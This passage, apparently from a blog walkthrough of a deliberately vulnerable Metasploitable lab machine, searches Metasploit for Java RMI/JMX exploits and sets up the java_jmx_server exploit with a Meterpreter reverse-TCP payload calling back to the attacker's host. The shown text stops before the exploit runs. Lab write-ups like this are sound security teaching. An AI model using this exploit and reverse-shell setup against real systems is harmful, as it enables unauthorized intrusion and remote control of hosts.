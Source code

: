 ```none
```

If an attacker wanted to exploit this further, they could lookup the file that contains the glassfish admin login credentials and then attempt to abuse the admin panel to get remote code execution on the host. However, since there were many other outdated services exposed on this machine, I figured there would be an easier way to own the system.

### JMXRMI (Port 1617)

Since this is a Metasploitable machine, I figured I might as well search for known exploits for `JMXRMI` in metasploit:

```none
msf5 > grep java search rmi
   14   auxiliary/gather/java_rmi_registry                                                  normal     No     Java RMI Registry Interfaces Enumeration
   39   auxiliary/scanner/misc/java_jmx_server                             2013-05-22       normal     No     Java JMX Server Insecure Endpoint Code Execution Scanner
   40   auxiliary/scanner/misc/java_rmi_server                             2011-10-15       normal     No     Java RMI Server Insecure Endpoint Code Execution Scanner
   100  exploit/linux/misc/jenkins_java_deserialize                        2015-11-18       excellent  Yes    Jenkins CLI RMI Java Deserialization Vulnerability
   102  exploit/multi/browser/java_rmi_connection_impl                     2010-03-31       excellent  No     Java RMIConnectionImpl Deserialization Privilege Escalation
   103  exploit/multi/browser/java_signed_applet                           1997-02-19       excellent  No     Java Signed Applet Social Engineering Code Execution
   119  exploit/multi/misc/java_jmx_server                                 2013-05-22       excellent  Yes    Java JMX Server Insecure Configuration Java Code Execution
   120  exploit/multi/misc/java_rmi_server                                 2011-10-15       excellent  No     Java RMI Server Insecure Default Configuration Java Code Execution
```

After poking around at some other services on the host, they appeared to be installing software from 2013, so it made sense to try the `exploit/multi/misc/java_jmx_server` remote code execution exploit:

```none
msf5 exploit(multi/misc/java_jmx_server) > show options

Module options (exploit/multi/misc/java_jmx_server):

   Name          Current Setting  Required  Description
   ----          ---------------  --------  -----------
   JMXRMI        jmxrmi           yes       The name where the JMX RMI interface is bound
   JMX_PASSWORD                   no        The password to interact with an authenticated JMX endpoint
   JMX_ROLE                       no        The role to interact with an authenticated JMX endpoint
   RHOSTS        172.28.128.4     yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT         1617             yes       The target port (TCP)
   SRVHOST       0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT       8080             yes       The local port to listen on.
   SSLCert                        no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                        no        The URI to use for this exploit (default is random)


Payload options (java/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.254.145  yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


```